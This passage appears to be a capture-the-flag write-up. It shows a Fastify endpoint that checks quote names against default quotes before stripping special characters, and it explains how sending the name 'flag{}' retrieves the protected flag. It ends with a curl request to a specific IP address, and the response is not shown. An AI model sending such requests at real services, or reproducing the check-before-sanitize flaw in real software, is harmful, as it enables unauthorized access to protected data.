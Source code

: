 We cannot see the flag here, we'll need to find a way to get it from the server.

## Exploit

Let's take a look at the `POST /personalized-quotes` endpoint:

```js
fastify.post("/personalized-quotes", async (req, reply) => {
	const { name, value } = req.body;
	if (!name || typeof name !== "string" || name.length > 50) {
		return reply.status(400).send({ error: "Invalid input" });
	}

	if (!req.session.quotes) {
		req.session.quotes = {};
	}

	if (defaultQuotes[name]) {
		return reply.status(400).send({ error: "Already exists in default" });
	}

	const sanitizedName = name.replace(/[^a-zA-Z0-9 ]/g, "");
	if (value) {
		req.session.quotes[sanitizedName] = value;
		return reply.send({ updated: req.session.quotes[sanitizedName] });
	}
	return reply.send({
		retrieved:
			req.session.quotes[sanitizedName] ?? defaultQuotes[sanitizedName],
	});
});
```

A few details in the code that are important to note:
- We cannot override default quotes with personalized quotes
    - If we try to set a personalized quote with the same name as a default quote, it will return an error
- The server do not want any special characters in the quote name
    - It will sanitize the name to remove special characters, then check again if the name is already taken
        - If it is, it will return the existing quote

So, all we need to do is try to set a personalized quote with a name which is not `flag` but will be normalized to `flag`.
- For example, we can set a quote with the name `flag{}`. The server will sanitize the name to `flag` and return the existing quote with the name `flag`.

Let's try it out:

```bash	
curl --location 'http://188.245.212.74:10001/personalized-quotes' \
--header 'Content-Type: application/json' \
--data '{
    "name": "flag{}"
}'
```
